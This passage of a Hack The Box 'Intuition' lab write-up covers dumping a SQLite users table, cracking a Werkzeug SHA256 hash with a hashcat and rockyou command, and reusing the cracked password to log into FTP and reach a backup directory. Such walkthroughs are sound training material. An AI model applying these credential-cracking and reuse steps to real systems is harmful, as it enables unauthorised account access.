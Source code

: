 ```bash
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|admin|sha256$nypGJ02XBnkIQK71$f0e11dc8ad21242b550cc8a3c27baaf1022b6522afaadbfa92bd612513e9b606|admin
2|adam|sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43|webdev
```

After searching <a href="https://hashcat.net/wiki/doku.php?id=example_hashes">here</a>, I found that this is `Python Werkzeug SHA256 (HMAC-SHA256 (key = $salt)) *` hash.
Let's use hashcat to crack both hashes using `hashcat -m 30120 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -O`
I cracked it before, so to show them i will do this
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/intuition]
└─$ hashcat -m 30120 -a 0 hash.txt --show                             
sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43:adam gray
```
I tried to SSH using these credentials, but i couldn't
```bash
dev_acc@intuition:/var/www/app$ su - adam
Password: 
su: Authentication failure
```

We can also try to login ftp as adam
```bash
dev_acc@intuition:/var/www/app$ ftp localhost
Connected to localhost.
220 pyftpdlib 1.5.7 ready.
Name (localhost:dev_acc): adam
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||56079|).
150 File status okay. About to open data connection.
drwxr-xr-x   3 root     1002         4096 Apr 10 08:21 backup
226 Transfer complete.
```
as you see we logged in successfully and also we have backup directory, let's fetch its content and get it.
> note: in the target machine go to /tmp as example and connect to FTP again as you can't get file in any directory you need a directory you can write in.
```bash
ftp> cd backup
250 "/backup" is the current directory.
ftp> ls
229 Entering extended passive mode (|||54641|).
125 Data connection already open. Transfer starting.
drwxr-xr-x   2 root     1002         4096 Apr 10 08:21 runner1
226 Transfer complete.
ftp> cd runner1
250 "/backup/runner1" is the current directory.
ftp> ls
229 Entering extended passive mode (|||36709|).
125 Data connection already open. Transfer starting.
-rwxr-xr-x   1 root     1002          318 Apr 06 00:25 run-tests.sh
-rwxr-xr-x   1 root     1002        16744 Oct 19  2023 runner1
-rw-r--r--   1 root     1002         3815 Oct 19  2023 runner1.c
```